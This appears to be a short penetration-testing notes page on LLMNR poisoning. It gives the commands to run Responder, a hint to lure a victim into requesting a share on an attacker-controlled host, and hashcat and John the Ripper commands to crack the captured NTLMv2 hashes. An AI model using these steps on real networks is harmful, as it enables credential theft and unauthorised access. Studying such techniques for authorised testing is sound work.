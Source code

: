 # LLMNR Poisoning

## Practical

### Capture NTLMv2 Hash

#### Start Responder

```
sudo responder -I eth0
```

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1).png" alt=""><figcaption><p>Responder </p></figcaption></figure>

{% hint style="info" %}
Note: You have to request for an non existent share in the victim machine

\\\\\<Attacker IP>\FakeShare
{% endhint %}

#### Captured Hash

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Crack NTLMv2 Hash

#### Hashcat

```
hashcat -m 5600 hash.txt /usr/share/wordlists/rockyou.txt
```

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1) (1).png" alt=""><figcaption><p>Hashcat</p></figcaption></figure>

#### John

```
john --wordlist=<wordlist.txt> hash.txt
```

<figure><img src="../../../.gitbook/assets/image (3).png" alt=""><figcaption><p>John The Ripper</p></figcaption></figure>
